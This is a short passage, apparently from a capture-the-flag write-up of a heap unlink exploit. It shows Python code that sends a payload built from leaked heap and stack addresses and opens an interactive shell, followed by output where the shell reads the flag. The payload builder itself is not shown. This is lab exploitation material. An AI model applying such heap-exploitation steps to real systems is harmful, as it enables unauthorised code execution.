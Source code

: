 ```python
unlink_process.read()

payload = build_payload(heap_address_leak, stack_address_leak)
unlink_process.send(payload)
unlink_process.interactive()
```



```
In [30]: unlink_process.interactive()
[*] Switching to interactive mode
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
$ ^C[*] Interrupted
```